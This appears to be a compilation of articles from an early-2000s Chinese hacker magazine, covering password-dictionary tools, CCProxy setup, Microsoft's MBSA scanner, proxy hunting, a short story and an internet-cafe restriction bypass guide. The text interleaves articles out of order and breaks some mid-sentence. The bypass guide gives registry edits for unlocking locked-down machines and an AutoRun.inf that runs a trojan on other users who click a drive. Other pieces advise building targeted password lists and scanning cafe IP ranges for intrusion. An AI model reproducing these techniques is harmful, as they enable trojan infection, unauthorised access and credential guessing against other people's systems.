| Win2000 | HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{...}\MTU | DWORD | 1466 |
| WinNT | HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\"ethernet adapter"\Parameters\Tcpip\MTU | DWORD | 1466 |
| Win98/Me | HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Class\NetTrans\000x(x 可能是 0、1、2……)\MaxMTU | 字符串值 | 1462 |

以上同样需确定分支后再作修改。经过修改后客户端主机可发送电子邮件及其附件。若服务器的注册表新建 MTU 值，那么客户端 MTU 或 MaxMTU 值不应大于服务器端的取值（若存在）。取值范围可根据实际情况修改，以达到最佳匹配速率。修改成功后再导出注册表做一备份，可备不时之需。

字典是黑客进行入侵的必备品，好的字典有助于减少入侵所用时间，常常是入侵成功的关键，那么如何得到一个好的字典呢？通常我们会使用字典工具生成一个字典，所以说应选择一款好的字典工具非常重要。下文将对几款字典工具进行比较，供大家参考。

## 字典工具总评

文／独行者

字典是我们常用的一种黑客工具，一般就是一个密码集，里面包含了我们需要的全部密码的集合，然后用特定的程序加载，从而实现暴力破解目标密码的功能，本文不讨论怎么入侵、怎么攻击，我们来说说常用的密码字典工具。

## 1．万能钥匙

生成字典内容：包含几乎所有密码集合  星级：★★★★★

这是最常用的一个密码字典了，它是苏州大学文学院的沈浩用 c++ 编写的，功能强大，操作简单，根据用户配置可以生成任意的密码集合（如图1）。

图1

万能钥匙包含了4个部分的配置：电话号码，包括普通的7、8位座机电话、数字移动电话或者寻呼机的号码，生成的字典大概有1700万行；出生日期——也就是我们常说的生日号码，可以根据出生的年、月、日选择密码范围，还可以选择用4位数来表示年份和“十位补0”方式来表示月份，如19800807，生成的字典大概只有1万行；姓名字母——这是万能钥匙编制得很好的地方，它非常好地揣摩了中国人的姓名特点和上网族用自己的姓名作为密码的特点，详细罗列出了“姓、姓+名字、姓+名字声母”等姓名密码构成方式（图2），详细且科学，生成的字典有5万行；英文数字——包含计算机中常用术语、网络术语150个，常用数字175个，这些都是经过长期筛选确定下来的，对付一般上网族的密码比较管用，当然，要是你要使用暴力法破解数字密码，那就只有选择最后一个“其他数字（0—9999999）”，不过，这样生成的字典会非常的大！

图2

和同类字典生成工具比较起来，万能钥匙的功能、范围是非常杰出的，不管是喜欢网络安全的骨灰级老大和菜鸟们的菜鸟们都可以很方便很全面地通过它来得到想要的密码集……但万事都不可能是完美的，万能钥匙也是如此：如果你选择全部的配置项目，生成的字典将会超出你想像的大！而且万能钥匙生成字典的过程也相对来说慢了一点，我想如果是全部配置，普通用户的计算机会非常的累，所以要是你想使用它来生成字典，那么建议你分类生成字典（图3）。

图3

## 2．生日密码生成器

生成字典内容：专门针对生日密码生成字典  
星级：☆☆☆☆☆

生日密码生成器是 Prince.BBSt 编写的，“简单、实用、专一”，可以用来很贴切地形容这款字典工具软件，可以毫不夸张地说：如果你的密码是使用的自己的生日，那么用生日密码生成器打造的密码集中一定包含了你的密码（图4）！

图4

这款软件最好的地方就是可以通过使用者所知道的信息来配置相应范围（实际生活中往往就是这样的情况）——比如现在我只知道某人的生肖，那我就可以通过选择软件里面“生肖”的项目来缩小字典范围，同样，我只是得到了别人的星座，我也可以通过设置来大大减小密码字典的长度（图5）。这样的功能使用起来非常方便，能大大提高破解的时间和几率，实际上就是在程序中集成了特定的算法，这个算法可以通过确定生肖和星座来确定年份，相信这点难不倒大家，这里不再赘述。

图5

我们知道，就算是使用生日作为自己的密码，配置的方式也千奇百怪，比如同一个生日，1978年1月2日，有的人使用“19780102”作为自己的密码，有的使用“1978.1.2”做为自己密码，还有人或许会用“7812”做为密码……每个人的想法都是不同的，生日密码生成器也想到了这一点，它提供了76种不同的密码组合方式，在使用的时候可以选择一种方式来生成所有的密码，也可以用多种样式来生成同样的密码，堪称经典！具体组合方式见图6。

图6

## 3．字典专家

生成字典内容：所有密码字符  
星级：☆☆☆☆☆

字典专家也是款可以生成任意密码的字典工具。

## 4. txt2dic

生成字典内容：文本中单词组合  
星级：☆☆☆☆☆

对骨灰级的高手来讲，面对的密码很少情况下是生日、姓名之类的东西，高手或者说是专业人士使用的密码都是定期更换，而且没有特定的规律，他们的密码一般都是在特定的文本中按照一定的组合规律抓出来的，很多时候字典里面根本没有！这时候就会很棘手，因为时间或者是安全等问题的限制，不可能使用罗列式的暴力方法，对字典工具的要求就更严一层，txt2dic 就是用来解决这个难题的，它能够将特定的文本中的字符提取出来，用不同的方法组合、替换，然后生成专门针对某一问题的密码集合，这样就能很容易地将本来由于时间、安全等因素限制的密码破解变得简单。

具，但是它的生成方式和常用的同类软件不同，它是采用按段（位）的方式输入密码的（最大可以定义 16 段密码），如图 7 所示。也就是说，我们可以先设置密码共有几段（位），然后根据每段（位）密码的猜测情况来选择不同的字符，比如我们认为别人的密码前面是自己名字的缩写，是英文小写字母，后面是自己生日号码的数字，一共有 7 段，那么我们可以在字典专家中这样进行设置：前两段设置小写的字母作为密码，第三段因为不确定是数字还是字母，可以同时选择数字和字母，后面几段就选择数字，然后生成密码字典，这样的字典将非常准确！

对每段（位）密码的组成，字典专家都提供了 4 种不同的方式和一种自定义方式，具体包括：数字 0～9，小写字母 a-z，大写字母 A-Z，分割符（也就是我们平时说的特殊字符）！# % 等，还有一个“自定义”你可以在里面填上自己认为是密码的东西——这一项是用来缩小密码范围的，比如我知道别人密码的第一位是数字 7，那我就可以将生成的密码字典中所有的密码第一位都自定义为了 7。

对一般情况来讲，如果使用者知道需要的密码是几位，每位大概在什么范围，那就可以使用密码字典来快速生成一个与之相对应的密码集合，所以，密码字典的最大特点就是可以通过已获得的信息来有针对性地生成字典。

txt2dic 只需要简单地填上原始的文本文档地址，想要得到的输出密码字典文件位置就能生成特定的密码集合，如果你了解更多的关于密码的信息，那你可以选择“过滤字串”来去掉有特定字符的密码，或者是你知道密码是几位的组合，你也可以选择相应的位数来确定密码的范围（图 8）。

上面是我们常用的字典工具，除此以外还有很多常用的密码字典，总的来讲是各有优劣、各有千秋，还得留给你们自己去发现，这里也就不一一列举。如果你在某个特定的时候需要密码字典的帮助，不妨使用上面的几个软件来试试，相信一定能获得很好的效果。

现在一说起“共享Internet”，几乎所有人都会说用 WinGate 或 Sygate。不可否认，WinGate、Sygate 的功能相当强大，但它们都是共享软件，一过试用期就不能用了，不适合长期使用。所以，我看就完全有必要向您推荐这款代理软件——CCProxy了。

# 图解代理服务器软件

文／blue

把很多台计算机连成局域网，然后再把其中的一台计算机连上 Internet，然后这个局域网中的每一台计算机都可以以这台连上网的机器为出口，通过这台机器连上 Internet。以上这些可能是网络时代中网络应用的最普通的一种上网方式。但实现这个方案还得要通过一些软件的支持。可以提供这种服务的软件很多，最主要的有：可以通过 Microsoft Windows 系统直接支持，还有可以通过代理服务器软件来实现。本人以前对代理服务器的软件存在一定的偏见，认为它根本不值一提，甚至是一种无能的表现。但最近我在工作中的一次经历让我从根本上改变了对代理服务器软件的看法，我觉得这次经历对我很有帮助，我也想告诉大家，希望和我一样对代理服务器软件有偏见的朋友早早地改变自己的看法。在这，我不得不说代理服务器软件方便了我们的上网过程，给局域网共享上网开辟了一片新天地。

我的经历是这样的，我最近找到一份工作，在一个 IT 公司上班，刚刚上班就接到了一个任务，公司内的网络状况不太好要我调整一下。我很自信地接下了这个工作。但经过我的测试、分析，结果却并不乐观。网络状况基本可以概括为：公司内部局域网是一个星型拓扑结构的网络，由一台服务器连上 Internet，这台服务器通过双网卡做成路由器，再进交换机，每台工作站的机器都连到交换机上。局域网工作正常，服务器连接 Internet 正常，没有任何问题，但到每一台工作站的机器就出现问题了。

问题是每一台工作站的机器在上 Internet 的时候，都有很多站点访问不了，只有少数的站点，比如：驱动之家等少数站点可以打开。每台工作站的机器上 QQ 使用没有任何问题。监测了工作站机器的上网速度也不慢，排除了因为网速过慢而导致网页无法打开的情况。虽说我是学网络的，但以前从没有见过这种情况。

通过在网上的查找，我了解到现在主流的代理服务器软件有：WinGate、SyGate、亿特，还有我最后选用并深深体会代理服务器的优秀品质的 CCProxy。

下载和安装 CCProxy 都很顺利，由于网上下载的是试用版，只有三个用户，所以我选用了三个工作站和服务器一起进行测试，以便了解它的工作情况，看它是否能解决我们公司网络中的问题。服务器端的设置使用默认的设置方式，然后对客户端进行简单的设置，客户端很轻松地就连上了 Internet。太好了！我有点儿喜出望外。看看其他的功能，只需进行简单的设置，好像所有的功能都可以使用。而且，更令我高兴的是，CCProxy 还提供了一些很实用的功能，方便了管理工作。比如，流量统计，还有控制某台机器不能上网，屏蔽某些站点等，对我来说这就是意外之喜，我开始并没有对代理软件抱太大的希望，真没想到它会把共享上网及其管理工作简化得如此简单、方便。之后，我在 CCProxy 的主页上注册了我们的账号，CCProxy 代理服务器软件成为了正式版，不限制用户数量。不到一个小时，我就把公司内的所有机器都代理上网。

下面我就向大家正式地介绍一下 CCProxy。

代理服务器 CCProxy 于 1999 年 6 月问世，经过几年的发展，目前的最新版本是 5.3（可以从它的主页——遨志软件 http://www.youngzsoft.com/cn/ccproxy/ 下载）。它的开发目的是，只要局域网内有一台机器能够上网，其他机器就可以通过这台机器上安装的 CCProxy 来共享上网，最大程度地减少了硬件费用和上网费用。能够做到通过 CCProxy 可以浏览网页、下载文件、收发电子邮件、QQ 联络等，网页缓冲功能还能提高网页浏览速度。CCProxy 在实现共享上网的同时，还提供了强大的管理功能。

要使用 CCProxy，首先要做的就是下载它的安装程序，下载地址是：http://www.youngzsoft.com/download/ccproxysetup.exe。现在的最新版本 CCProxy 5.3 的安装文件只有 805k。下载安装，运行它就可以了。安装过程很简单，询问是否要安装 CCProxy 代理服务器软件，确定安装路径，询问是否要在桌面和快捷菜单里建立快捷方式，最后安装成功，以后可以直接运行 CCProxy。还有一点也要注意，就是为了能使客户机通过代理服务器上网，必须要保证客户机和服务器的通讯正常，这样才能进行代理服务。不要以为这一点不重要，我看到好多网友有关使用代理服务器客户机不能上网的问题，都是出在这个环节上，所以我们不能因为它简单从而忽视了它，毕竟“先硬后软”是排除故障的主要原则。

进入 CCProxy 的主界面（图 1），界面友好，主要功能也很直观，都显示在功能区中。

直接点击功能区的按钮会执行相应的功能，下面的绿色网格则显示了目前的网络流量。双击这个绿色网格，还会出现实时显示客户端连接信息（图 2）。下面对具体功能进行一下介绍。

第一、二个按钮图表分别是“启动”和“停止”，它们相应的功能也很好理解，就是启动或者停止 CCProxy 的代理服务。每次运行 CCProxy 的时候，它的代理服务功能总是默认启动的，我们无需在启动 CCProxy 以后，再开启它的代理服务的功能。

第三个按钮是“设置”（图 3），在这里我们可以对 CCProxy 的代理服务进行设置，选择我们需要的代理服务及其相应的代理端口，还有一些基本功能，如网页缓存、自动启动、自动隐藏，在实际使用当中都是很有用的。

默认的代理端口列表及主要用途：

- HTTP：808 — 用于浏览器上网
- FTP (Web)：808 — 用于浏览器连接 FTP 站点
- FTP：2121 — 用于 FTP 客户端软件连接 FTP 站点
- Gopher：808－用于浏览器连接 Gopher 站点
- Secure/SSL/HTTPS：808－用于浏览器连接安全站点
- RTSP：808－用于 realplayer
- SOCKS：1080－用于部分网络客户端软件（如 QQ，联众）
- MMS：1080－用于 mediaplayer
- News（NNTP）：119－用于 outlook 连接新闻服务器
- SMTP：25－用于邮件客户端软件发送邮件（如 outlook，foxmail）
- POP3：110－用于邮件客户端软件接收邮件（如 outlook，foxmail）
- Telnet：23－用于某些 Telnet 客户端软件，如（Cterm）

还有一点需要注意，就是如果你选择了“DNS”，而且你的系统又是 Windows 2000 的话，可能会出现启动 CCProxy 代理服务时报警的问题（图4）。这没有关系，这是因为 Windows 2000 自己已经有了 DNS 服务，所以 CCProxy 的 DNS 服务与 Windows 2000 的 DNS 服务冲突了。把 CCProxy 的 DNS 服务关掉就好了，即使不关，开着 DNS 服务，系统报警也不会影响使用。这个问题在其他 Windows 系统不会出现。

在 CCProxy 主窗口功能区的第 4 个按钮是“账户”（图 6），它的作用是对客户端的代理服务请求进行管理，可以根据 IP 地址、MAC 地址、用户名、密码等等验证方式来决定是否对客户端的机器提供代理上网的服务，而且可以对目前的访问量进行统计。在这里还有一个很突出的功能，就是对时间和网址控制初始化设置。利用这个功能，我们可以限制客户端登录某些站点，而且可以限制允许客户端代理上网的时间段，超出规定的时间段则不可以使用 CCProxy 的代理服务上网。这个功能方便了网管的工作，在企业里是使用率很高的。

在“设置”窗口中有一个“高级”按钮，点击打开一个新的窗口（图 5）。在这里可以对 CCProxy 的代理服务进行特殊功能的设置。其中包括拨号、缓存、二级代理、日志、邮件和其他。这些设置可以帮助我们更好地使用 CCProxy，但如果设置不当可能会引起 CCProxy 的工作不正常，甚至不能工作，建议对代理服务和 CCProxy 不是很了解的朋友慎用。

第五个按钮是“注册”（图 7），主要功能就是对使用版的 CCProxy 进行注册。注册好的 CCProxy 的注册窗口就不需要再添入相关的信息了（图 8）。

这里有一点需要注意，网上现在有很多的针对 CCProxy 的注册机，但到目前为止我还没有发现一个可以真正注册 CCProxy 的。用网上下载的注册机生成的序列号可以在表面上注册成功，“注册”窗口也好像图 8 一样显示注册成功，标题栏也不再有三用户、演示版的提示，一切都好像是真的注册成功了一样。但事实并非如此，当在局域网中使用 CCProxy 的时候，我们不难发现，CCProxy 还是只能对 3 台客户机进行代理服务，跟演示版的功能一样。我曾经好长一段时间想不通这个问题，最后还是请教了作者才得知，CCProxy 已经从去年开始实行网上注册了，网上的那些注册码根本就没有作用。希望大家了解这一点，不要再浪费宝贵的时间进行那些无谓的工作。

另外，CCProxy 还开发了大量针对网络管理员的高级功能，下面的介绍主要是关于高级功能的说明和对应的参数设置，建议使用插件 CCSetPro 和 CCReport（网站主页上下载）来设置高级功能。CCSetPro 和 CCReport 提供了高级参数的可视化设置，所有参数在修改保存后，都需要重新启动 CCProxy。

对于高级管理人员，只要了解 CCProxy 的安装程序结构，可以自定义完美的 CCProxy 代理服务器配置，甚至不需要使用 step 安装，若没有特别需要，只需拷贝 ccproxy.exe、CCProxy.ini、AccInfo.ini、CDial.dll、uuid.dll 5 个文件到任一目录即可完全运行。若需要中文及其他语言支持，只需再在当前安装目录下建立一个 Language 的子目录，并将相应的几个语言配置文件拷贝过去即可。Smtp、Log 两个子目录会自动建立。

高级管理功能在这里就不多介绍了，有兴趣的朋友可以到网站的主页上下载说明文件（下载地址：http://www.ccproxy.com/ccproxyhelp.zip）。

以上就是帮助我很快完成第一项工作任务的代理服务器软件——CCProxy。通过我的使用，增进了我对它的了解。我觉得它真的是一款出色的代理服务器软件，操作简单，功能强大，甚至可以通过高级管理功能打造出属于自己的 CCProxy。

说到这里，我不能不说的一点，也就是在 CCProxy 的使用过程中总结出来的一点点遗憾。因为它是代理服务器软件，所以它就必然会占用一些端口，比如邮件服务的 25（smtp）和 110（pop3）。而如今很多杀毒软件都会对邮件进行随时的监控，也会监视这些端口。这样一来，CCProxy 和杀毒软件就会发生冲突，我们因为工作的需要往往只好忍痛割爱，关掉其中的一种。为了代理服务而让服务器亦身裸地暴露在病毒横行的 Internet 中，实在是太危险了。希望 CCProxy 的制造商遥志软件公司能够在下一个版本中解决这个瓶颈问题，也希望大家和我一起支持 CCProxy，支持国产软件，为我们的民族产业尽一份力。

# Microsoft Baseline Security Analyzer

## 试用手记

IIS 漏洞层出不穷一直让微软头疼不已，最近 MSSQL 又被发现有漏洞可以被远程溢出，尽管微软一直告诫用户要留意发布的安全公告，并及时更新系统组件和安装 Service Pack，但是效果显然并不明显，很多管理员依然不知道系统漏洞究竟出在哪些方面，需要安装哪些补丁来修补。鉴于这种情况，微软继 IIS Lockdown Tools 之后又推出了一款新的系统安全分析工具——Microsoft Baseline Security Analyzer（中文名为微软基准安全分析器，下文简称 MBSA）。

我们可以到 http://www.microsoft.com/technet/treeview/default.asp?url=/technet/security/tools/Tools/MBSAhome.asp 下载这款免费系统安全分析工具，文件大小 2.73MB。

MBSA 的安装很简单，安装完毕之后自动在桌面生成一个快捷方式，双击进入主界面。MBSA 的界面很简洁，功能按钮排列在左边，单击功能按钮则在右面窗口显示程序的主界面。通过查看 MBSA 的帮助文件，我们得知 MBSA 是为 NT 版本以上的 Windows 系统开发的，可以扫描单机或者一个网段内的主机，主要有 5 个扫描项目：

1. **Windows vulnerability checks** [Windows 系统漏洞检测，主要包括 Guest 账号的状态、文件系统格式、可用共享、管理员组成员等。]
2. **Weak passwords check** [弱密码检测，主要测试密码强度，时间长短视用户多少而定。在扫描域控制器时可跳过此项。]
3. **Internet Information Server (IIS) vulnerability checks** [扫描 IIS4/5 漏洞，给出检测报告和修补说明，检测是否安装 IIS Lockdown Tools 等。]
4. **SQL vulnerability checks** [MSSQL7.0/2000 漏洞检测，主要检测验证模式、密码状态、账号的成员人数等。]
5. **Security updates check** [利用 HFNetChk tool 对照微软数据库，完整地检测系统缺少哪些安全补丁并给出详细报告。]

以扫描单机为例，点击 **Pick a computer to scan**（图 1），在 **Computer Name** 中填写扫描的计算机名称，或者直接在 **IP Address** 中填写该机器的 IP 地址，选择要扫描的项目，按 **Start Scan** 即可开始。

稍后，MBSA 会给出一份详细的检测报告（如图 2），报告采用 HTML 格式，直观清晰，便于保存。比较严重的系统漏洞都会用一个红叉来标记，标记下面有 3 个选项：

1. 扫描了什么内容（What was scanned）；
2. 详细结果（Result Details）；
3. 如何修复（How to correct this）；

这样，管理员就可以比较轻松地弥补这个漏洞，如图 2 中所示：MBSA 在 Windows 系统漏洞……

# 菜鸟也谈隐藏 IP

文 / mopish boy

隐藏 IP 地址已经是个老生常谈的话题了，不少地方都有详细的说明文章，但看来看去感觉都不大适合我们菜鸟，因为许多文章都是讲用肉鸡去做跳板，相信大多数的人还没有一个属于自己的肉鸡。或许对于我们菜鸟来讲，用 Proxy Server 是最简单的方法了，可是 Proxy Server 好找吗？即使找到了还要自己一个一个地去 ping。那么，菜鸟们只能冒着暴露 IP 的危险心惊肉跳地去上网吗？答案当然是 No。

今天，我就给大家介绍一款帮你找 Proxy Server 的好工具：QQ 代理公布器 XP。如图 1 所示：

QQ 代理公布器是金狐、静水无痕两位大师的杰作，它的界面非常简单，如果我们要用代理上 QQ 之类就在代理类型里选 SOCK5，如果要浏览网页就选 HTTP；为了能知道代理服务器的速度，我们可以在“是否测试代理”前打钩。点击读数据，就能看到代理服务器的 IP 了。如图 2 所示：

注意：读数据时请关闭防火墙或调低安全级别，否则会因为超时造成程序停止响应。关于如何设置代理，这里就不多说了，大家可以看看前几期的文章。其实，QQ 代理公布器的功能不仅仅只有这一个，它还有另外 3 大用途：1. 查询地区的 IP 范围；2. 查询 IP 所在的地区；3. ping。

其中我最喜欢的就是第一个功能，如果我们想入侵一家网吧，那么只要选择地区 => IP，在弹出的窗口“输入地区”一栏里填入“网吧”，哈哈，数据像瀑布一样往下流（图 3）。怎么样，这款工具还不错吧，那还等什么，快去下一个吧。它的下载地址是：http://mangui.com/qqproxy/qqproxy.rar。

检测项中，检测到文件系统不是 NTFS 格式的，MBSA 建议我们将文件系统转换为 NTFS 格式，以便给用户分配访问权限，限制用户非法访问机密数据。并给出了具体的实现办法给我们参考。针对某些比较复杂的安全问题，除了文字描述外，用户还可以直接点击详细结果（Resualt Details）来查看更为直观的示意图。

如果要扫描一个网段内的一组主机，只需点击“Pick multiple computers to scan”，然后在 IP address 项内添入这组主机的 IP 地址，即可开始扫描。在保证网络连接的情况下，MBSA 会分别给出每一台计算机的安全分析报告和详细解决方案。这样就大大减轻了管理员的工作负担。如果管理员能够对照 MBSA 给出的解决方案去安装补丁或修改系统配置，那么我们的基于 Windows 的网络的安全性一定会大大增强的。

本文是在左继《生命中的简单》一文后的另一力作，文中少了网络的虚幻，多了现实的真实。

除了让各位读者从现实的角度了解黑客的现实生活，还从侧面提醒各位读者非法入侵是要受到法律的制裁，有一定的教育意义。

# 水果的味道

文／左左

校园的生活早在一个月前就结束了，怎么感觉毕业的乐章似乎都还没有奏起，我还有点沉醉于往昔。我一个人来到这个城市工作。单位给我的感觉是灰色的，宿舍更让我觉得是纯朴的黑色，好郁闷。

我需要换一种环境让我的心情好一些，这是我的决定。于是我开始着手找一间既要经济还要位置好一些的房子。许久，偶然看到有一个叫桃树街柠檬路128号A座的地方出租一间房子。好有味道的地方，我一定要去，从那里找我单位大约要一个小时的公车，远是远了点，房子还可以，也不贵，只是房东早把另一间房子租给了一个男生，也就是说，这房子由我们两个人合租，但他出远门还未回来。犹豫之余，我告诉自己：没事的，我喜欢这里，喜欢这里的街道、房子，所散发的水果味道。

生活真是太具体了，搬家的繁尊种种。搬完了，终于。好累，但心情好。周天下起了雨，我坐在客厅削苹果，有人开门进来，来者英俊潇洒。我猜他一定便是我的合租者，我上前告诉他我是他的合租者，他抬眼看了我一眼只说道：“知道了。”便回到他的屋里去了。离近了，才看到他双眼浮肿而暗淡无光。

第二天下班回来，我敲他的门，想和他商议水电费的问题，我经允许进了门，屋里有些暗，但是凌乱的摆放中清晰可见他正在电脑前忙碌着什么，我刚一说水电费3个字，他便说：你定好了，走时随手关门。

这个人怎么冷血似的，但是偶尔又可以听到他的惊呼，还有大笑的声音，难道他有病？

下班的路上总会经过一家叫四季鲜果的水果店，天天来这里是我的必修课，我天天给他送水果，他总是言谢，而今天却给我一个微笑。

“你今天心情好呀？”我问他。

“嗯，刚刚用社会工程学的方法，弄到了一个公司的管理员账户和密码……”

“什么？不太明白，难道说你在做犯法的事？”

“不，那不是目的，我刚才还帮他们的系统打了补丁，现在安全得很！不说这个了，我问你，你是不是特别爱吃水果？”

我轻轻嗯了一声来掩饰自己的惊奇。

“别有气无力的，你快告诉我你爱吃什么水果？”

“苹果、梨、香蕉、西瓜、桃、柠檬、橘子、橙子、李子……”我把我能记起来的水果名字胡说了一通。

“为什么这么爱吃水果？”

“因为，嗯，因为水果的味道好香。”

这是他第一次跟我说这么多话。

因为住在同一套房子，我们相识了，因为水果我们相熟了。

收拾他的衣物也快成我的必修课了。我天生爱动，他坐在电脑前工作的时候，我总是在他身边跳来跳去，他也不管我，只是脸上浮有一丝微笑。

我再也没有过问他的工作，反倒习惯了和他在一起生活，但所有的一切都是那么没有规律，我上班的时候他大多时候在梦乡，我在安然入睡的时候他却逗留在网上。对了，他还常常打一些莫名其妙的电话，之后就独自一人偷着乐，我已经习惯了……认识他一百天的时候，他为我做了早餐，在这个没有亲情的城市一股暖流划过我的心田，流泪了，他轻轻地拥我入怀，为我擦去眼泪。

我没有拒绝他，日子依然在流动……

为了他的工作，他从来没有时间陪我，为了这事我们争吵过，他脾气不好。和好之后我又总是在他眼前晃来晃去，有时他烦了会狠狠地在我背上拍一下。偶尔傍晚去散步，这种感觉真美好，好轻松。而我也陶醉于其中，觉得自己简直就是一个幸福的小女人。

周末去水果店上我的必修课，我挑了一个胖胖的西瓜。一到家就喊：“看我买了什么？”他说他在工作。怎么这么严肃？我就逗他：“没吃的时候是绿的，吃的时候是红的，吐出来的时候是黑的，快猜，是什么？”他说别闹了。他开始给一家公司打电话的时候，自称自己是什么部门经理（嘿嘿，就这样的经理？我没太在意）；就在我偷听他讲电话的时候，一不小心，被机箱后面一堆线绊了一下，顿时他的电脑漆黑一片。他马上挂了电话，跑去接线，但线断了！他怒视着我，开始骂我：“你疯了吗？我在干一件很重要的事！你知道我计划了多久吗？这整个计划都被你搞砸了！算了，跟你说也不懂，快给我走！……还不滚！”我转身跑了，含着眼泪，从未见过他这样。好委屈，他又变得无语。我试着再寻找另外一间房子了。我走去了，他也无语。

离开了那个让我伤心的地方，并不是因为他是一个黑客，是因为这样的工作所铸就的他的性格上有太多让我无法接受的地方。

距离让思念产生淡淡的酸味……

我收到他发的E-Mail，有一个Flash：一个大大的西瓜，一个胖胖的女孩儿在吃，还不住地吐籽。原来他猜到了谜底。我给他回复：“无论你是否还能到我花架下驻足，每当微风送来，我娜娜婆娑时，我知道我在为你起舞；每当月华侵来，我暗香袭人时，我知道我在为你吐露芬芳。今生我注定要枯萎于别人的晓落，埋葬于别人颤抖的手和心碎的泪，但我最美的馨笑根植于你的土壤，因此，我知道你是最珍爱它的人，哪怕你在那一刻既看不到也听不到，我把它为你保存下来。”

过了两个月，他E-mail给我，又是个Flash：一间小小的屋子，里面堆满了水果，他们随着音乐翩翩起舞。底下是一封短信：“上次我原本入侵银行，自称自己是经理也是为了骗取那位经理的登录密码，但却被你的无意破坏了，这却让我避免了一场官司，其他和我一起入侵的朋友都受到了法律的惩罚，我只被拘留了一个多月，所以我还应该谢谢你！……闻到水果的味道了吗？回来吧，很想念你，顺便告诉你，我换工作了。”

我不明白自己是不是在等这一天，但我的心早已飞到了他那屋子里……灯火通明，暖洋洋的，他拉着我的手进了他的房间。这不是他给我做的Flash吗？到处都是水果……

一颗纯净的心需要另一颗纯净的心的相互映照，一颗黑暗的心更需要一颗纯净的心的照耀与沐浴。有黑暗而光明，由痛苦而幸福，这是一种漫长的灵魂洗礼。

我看到他脸上幸福的笑容，于是我拿起一个苹果闻了闻，然后贪婪地咬了一大口。

# 网吧十二招

## 常见限制的解决办法

文/song

网吧中经常有各种限制，如不能下载文件、隐藏硬盘等。笔者经常在网吧上网，总结了一些经验，针对网吧中最常见的12种限制，为您提供相应的解决办法，使用这些方法以后，可以让你拥有更多的权限，在网吧上网更自由！

### 一、解除12种常见限制的方法

#### 1. 恢复桌面

首先，要知道在网吧中是无法直接看到大家熟悉的“桌面”，你的一切操作都是在网吧管理软件限制下进行的，以美萍为例，在它控制下的桌面实际上是美萍指定的一个目录，而原来的桌面则被隐藏了。虽然如此，但是“他有张良计，我有过墙梯”，我们可以在浏览器地址栏中输入“桌面”这两个汉字，或者输入 file:///c:/windows/system/ 显示桌面.scf，这样就可以看到原桌面。

#### 2. 让隐藏的硬盘现身

网吧中会把硬盘隐藏起来，防止我们随意进入硬盘，所以要想拓展自己的权限，就得解决这个问题。编辑如下内容的代码即可：

```
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoDrives"=dword:ffffffff
"NoDriveTypeAutoRun"=hex:95,00,00,00
```

保存为 reg 文件，运行即可。要注意的是，该文件的第一行：RGEDIT4 必须大写且顶格，在它下面一定要空上一行。在最后一行输入完毕记得要按两次回车，即保证最后还要空上一行，再保存文件。注意，文章中所有关于 reg 文件的要求都是如此，为节省篇幅不再赘述。

运行这个 reg 文件后，不仅可以使隐藏的硬盘显示出来（DWORD 值 NoDrives 决定是否把硬盘隐藏起来），还可以恢复磁盘的自动运行功能（二进制值 NoDriveTypeAutoRun 决定了是否启用磁盘自动运行功能）。这样，如果你想单击硬盘图标就自动运行某个程序就可以实现了。如果这个程序是木马，则可以实现自动运行木马程序功能！编写如下内容的 AutoRun.ini 文件即可：

```
[AutoRun]
Open=muma.exe
```

把 muma.exe 文件放在 Windows 所在文件夹，然后把编写完毕的 AutoRun.inf 文件放在磁盘根目录下即可。这样只要有人点击该盘图标，就会自动运行 muma.exe 文件！

#### 3. 恢复 reg 文件关联

有的网吧会修改 reg 文件关联，就是到注册表 HKEY_LOCAL_MACHINE\Software\CLASSES\.reg 下，在右边的窗口中更改“默认”值为“txtfile”，这样当我们导入 .reg 文件时会发现打开的不是想像中的注册表编辑器，而是记事本程序！这样我们前面所做的可能就是无用功了，解决的办法其实也很简单，只要编写如下内容的文件就可以。

```
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\CLASSES\.reg]
@="regfile"
```

你可能会奇怪，不是无法导入 .reg 文件吗？怎么又编辑了一个 reg 脚本呢？要注意，我并没有说保存为 .reg 文件呀。我们可以将该文件保存为 reg.abc，保存为一个系统中不存在的扩展名。abc 之后，用鼠标右键单击该文件，在弹出的右键菜单中选择“打开方式”，在打开的“打开方式”窗口中选择“regedit”打开（图 1），点击“确定”按钮，出现了一个提示窗口显示：确定要将 D:\REG.ABC 内的信息添加到注册表吗？（图 2），按“是”，“REG.ABC”的内容就导入注册表了。这样我们就巧妙地恢复了 reg 文件的关联。

#### 4. 给注册表编辑器解锁

网吧中是一定会锁定注册表编辑器的，因为害怕大家修改注册表。但是，注册表是 Windows 的核心，如果无法使用注册表编辑器那将有很多权限被限制住，所以要给注册表编辑器解锁。编写如下内容的代码；

```
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

保存为 reg 文件，运行后就可以使注册表编辑器恢复自由。其实，我们还可以换个方法来解决这个问题，那就是给注册表编辑器 Regedit.exe 文件改名！大家知道，把 .EXE 文件的扩展名改为 .COM、.BAT、.PIF、.BMP 或 .SCR 之后，并不影响这个 EXE 文件的运行。基于这种原理，我们可以把注册表编辑器 Regedit.exe 改名为 Regedit.com、Regedit.bat、Regedit.pif、Regedit.bmp 或 Regedit.scr 中的任一个都可以，只要网吧中没有禁用上述文件扩展名中的任意一个，运行改名后的文件都可以打开注册表编辑器！

#### 5. 巧妙使用控制面板

在“控制面板”中可以对系统进行各种设置，作为网吧的客人我们当然很喜欢它，但是网吧管理者却很讨厌它，因为“控制面板”对网吧来说，实在是太危险了，所以网吧中会禁用“控制面板”。要想使用控制面板，只要在浏览器地址栏中输入：file:///::{7B20D04FE0-3AEA-1069-A2D8-08002B30309D}%7D%5C::{21EC2020-3AEA-1069-A2DD-08002B30309D}%7D"，就可以了。其实，“控制面板”就是 Windows 安装目录下的 control.exe 文件，找到该文件运行就可以了。另外，控制面板中的各个选项对应的是 Windows 安装目录下的 system 子目录中的 *.cpl 文件。

#### 6. 在桌面上显示“网上邻居”图标

要想查看同一网吧中的其他用户，可以使用“网上邻居”，遗憾的是“网上邻居”也被网吧给封杀了！也就是说你在桌面上休想看到“网上邻居”的图标。怎么样才能让它出现呢？编写如下内容的 reg 文件即可：

```
REGEDIT4

